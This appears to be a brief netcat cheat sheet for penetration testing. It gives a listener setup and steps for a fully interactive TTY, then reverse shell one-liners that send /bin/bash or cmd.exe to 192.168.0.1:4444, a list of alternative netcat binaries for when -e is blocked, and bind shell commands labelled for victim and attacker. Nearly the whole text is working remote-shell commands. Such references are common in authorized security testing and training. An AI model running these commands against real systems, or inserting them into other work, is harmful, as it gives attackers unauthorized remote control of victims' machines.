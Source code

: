 
rlwrap nc \-nlvp 4444

### Enable Tab-Completion 




\-\-\- 


1\. In your active shell press bg to send your nc session to background
2\. Enter stty raw \-echo
3\. Enter fg to bring your nc session to foreground
4\. Enter export TERM=xterm\-256color


### Reverse Shell 




\-\-\- 




#### Unix 


nc 192\.168\.0\.1 4444 \-e /bin/bash

If \-eis not allowed, try to find other versions of netcat
/bin/nc
/usr/bin/ncat
/bin/netcat
/bin/nc\.traditional


\-\-\- 




#### Windows 


nc 192\.168\.0\.1 4444 \-e cmd\.exe

### Bind shell 




\-\-\- 




#### Unix 



Victim:
nc \-nlvp 4444 \-e /bin/bash

Attacker:
nc 192\.168\.0\.1 4444
